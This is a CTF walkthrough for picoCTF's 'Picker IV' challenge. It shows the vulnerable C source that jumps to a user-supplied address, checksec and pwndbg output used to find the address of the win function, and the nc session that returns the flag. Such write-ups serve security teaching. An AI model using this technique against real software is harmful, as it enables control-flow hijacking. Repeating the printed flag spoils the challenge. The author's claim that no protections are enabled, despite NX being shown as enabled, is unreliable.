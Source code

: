 # Picker IV
This was a challenge listed exclusively for the Pico Gym.  It's listed as Medium and categorized as a Binary Exploitation challenge.  
Direct Link:  https://play.picoctf.org/practice/challenge/403

## Description
The Description reads:
> Can you figure out how this program works to get the flag?

## Hints
There are two hints:
> With Python, there are no binaries. With compiled languages like C, there is source code, and there are binaries. Binaries are created from source code, they are a conversion from the human-readable source code, to the highly efficient machine language, in this case: x86_64.
> How can you find the address that win is at?

# Solving
## My Thoughts
This is a nice intro to debugging C programs and removes a lot of the security features that increase the difficulty of it exponentially.

## Source Code
This looks to be a standard C binary exploitation challenge.  The flag is in the win function and we need to manipulate the program to point to that function.

So let's start by looking at the source code, I've added comments to explain what's going on:

``` c
// These are all calls to include extra functions for use in the program.
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

// A function that will be called if a segfault occurs.
void print_segf_message(){
  printf("Segfault triggered! Exiting.\n");
  sleep(15);
  exit(SIGSEGV);
}

// A function that can be called to get the flag.
int win() {
  // Initiates a file pointer.
  FILE *fptr;
  // Initiates a variable named c that will hold a character.
  char c;

  printf("You won!\n");
  // Opens the flag file
  fptr = fopen("flag.txt", "r");
  // This just makes sure that the file actually exists.
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Reads the first character from the file
  c = fgetc(fptr);
  // Prints the contents of the file then reads in the next character
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  // Prints a new line
  printf("\n");
  // Closes the file
  fclose(fptr);
}

// Called when the program starts.
int main() {
  // No clue what this does
  signal(SIGSEGV, print_segf_message);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  // Initiates a variable named val that holds an unsigned integer, unsigned means it can't represent negative numbers.
  unsigned int val;
  // Asks the user to enter some data
  printf("Enter the address in hex to jump to, excluding '0x': ");
  // Reads in the user's data.  %x means that what the user enters has to be hex data.
  // The user's data is then saved in the val variable created above.
  scanf("%x", &val);
  // Prints the user's input.
  printf("You input 0x%x\n", val);

  // Creates a function named foo that points to the memory address specified by the user using the variable val that was set above.
  void (*foo)(void) = (void (*)())val;
  // Calls the new function.
  foo();
}
```

If your at all familiar with C vulnerabilities, this will look pretty familiar.  The difference here is that the printf function is actually implemented correctly!  

Printf is inherently vulnerable because it will interpret string format characters such as %p, this can allow us to read through the stack and get memory locations.  

With the correctly typed scanf and printf functions, the only thing we can enter without crashing the program is valid hex data as shown below:

``` bash
┌──(kali㉿kali)-[~/picoctf/gym/Picker_IV]
└─$ ./picker-IV
Enter the address in hex to jump to, excluding '0x': %p
You input 0x0
Segfault triggered! Exiting.
```

Ok, let's take a step back then.

## GDB
Let's run the 'file' command on the executable really quickly to see what we're dealing with:

``` bash
┌──(noah㉿kali)-[~/picoctf/gym/Picker_IV]
└─$ file picker-IV
picker-IV: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=12b33c5ff389187551aae5774324da558cee006c, for GNU/Linux 3.2.0, not stripped
```

This gives us some info about the executable.  It's 64-bit but really doesn't seem to have any other problematic security features (memory randomization/PIE) enabled.

Let's verify that with pwntools' [checksec tool](https://docs.pwntools.com/en/dev/commandline.html):

``` bash
┌──(kali㉿kali)-[~/picoctf/gym/Picker_IV]
└─$ checksec picker-IV
[*] '/home/noah/picoctf/gym/Picker_IV/picker-IV'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Yup, looks promising! Since there are no security features enabled, we can actually just run the program in gdb and get the memory addresses we need to get our flag!

gdb stands for Gnu Debugger and is a legitimate tool used to debug executable programs.  We're going to use it (combined with the [pwndbg addon](https://github.com/pwndbg/pwndbg) to compromise this progrm and get our flag:

Let's start by just running the program with pwndbg:

``` bash
┌──(kali㉿kali)-[~/picoctf/gym/Picker_IV]
└─$ pwndbg picker-IV

Reading symbols from picker-IV...
(No debugging symbols found in picker-IV)
pwndbg: loaded 187 pwndbg commands and 47 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $base, $hex2ptr, $argv, $envp, $argc, $environ, $bn_sym, $bn_var, $bn_eval, $ida GDB functions (can be used with print/break)
------- tip of the day (disable with set show-tips off) -------
GDB's set directories <path> parameter can be used to debug e.g. glibc sources like the malloc/free functions!
pwndbg>
```

Lots of stuff there, can be a little overwhelming.  First off, we can simply run the program using the "run" command:

``` bash
pwndbg> run
Starting program: /home/kali/picoctf/gym/Picker_IV/picker-IV
warning: could not convert 'rb_root' from the host encoding (UTF-8) to UTF-32.
This normally should not happen, please file a bug report.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter the address in hex to jump to, excluding '0x':
```

Now let's get the memory addresses of the various functions:

``` bash
pwndbg> print main
$1 = {<text variable, no debug info>} 0x401334 <main>
pwndbg> print win
$2 = {<text variable, no debug info>} 0x40129e <win>
```

Ok, so the memory location of win is 0x40129e!  Let's try connecting to the server and send that over to see if we get the flag:

``` bash
┌──(noah㉿kali)-[~/picoctf/gym/Picker_IV]
└─$ nc saturn.picoctf.net 59365
Enter the address in hex to jump to, excluding '0x': 40129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_b8de1af4}
```

Awesome, we got the flag!
